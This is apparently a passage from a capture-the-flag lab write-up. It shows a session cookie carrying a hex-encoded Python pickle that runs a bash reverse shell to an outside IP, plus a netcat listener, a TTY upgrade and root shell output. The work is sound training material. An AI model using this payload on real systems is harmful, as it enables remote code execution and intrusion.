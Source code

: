 <h2>Listener</h2>

```bash
:~/Voyage# nc -nlvp 443
```

<h2>Burp Suite</h2>

<h6>Request</h6>

```bash
GET / HTTP/1.1
Host: xx.xxx.xx.xx:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html, application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http:/xx.xxx.xx.xx:5000/
Cookie: session_data=80049555000000000000008c05706f736978948c0673797374656d9493948c3a2f62696e2f62617368202d63202762617368202d69203e26202f6465762f7463702f31302e3230312e38392e3230332f3636363620303e26312794859452942e
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetcg-Site: none
Sect-Fetch-User: ?1
Priority: u=0; i
```

<h2>Shell as User</h2>

```bash
:~/Voyage# nc -nlvp 443
...
root@d221f7bc7bf8:/finance-app# python3 -c 'import pty;pty.spawn("/bin/bash")'
<app# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@d221f7bc7bf8:/finance-app# ^Z
[1]+  Stopped                 nc -nlvp 443
:~/Voyage# stty raw -echo; fg
nc -nlvp 443

root@d221f7bc7bf8:/finance-app# export TERM=xterm
root@d221f7bc7bf8:/finance-app# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@d221f7bc7bf8:/home# cd /root
root@d221f7bc7bf8:~# ls -lah
total 140K
drwx------ 1 root root 4.0K Jun 25 14:53 .
drwxr-xr-x 1 root root 4.0K Jun 26 18:36 ..
-rw-r--r-- 1 root root  137 Jun 25 14:48 .Module.symvers.cmd
-rw------- 1 root root  446 Jun 26 18:37 .bash_history
-rw-r--r-- 1 root root 3.1K Oct 15  2021 .bashrc
drwxr-xr-x 3 root root 4.0K Jun 24 12:21 .local
-rw-r--r-- 1 root root   86 Jun 25 14:48 .modules.order.cmd
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
-rw-r--r-- 1 root root  163 Jun 25 14:48 .revshell.ko.cmd
-rw-r--r-- 1 root root  120 Jun 25 14:48 .revshell.mod.cmd
-rw-r--r-- 1 root root  45K Jun 25 14:48 .revshell.mod.o.cmd
-rw-r--r-- 1 root root  44K Jun 25 14:48 .revshell.o.cmd
-rw-r--r-- 1 root root   38 Jun 24 15:17 user.txt
```
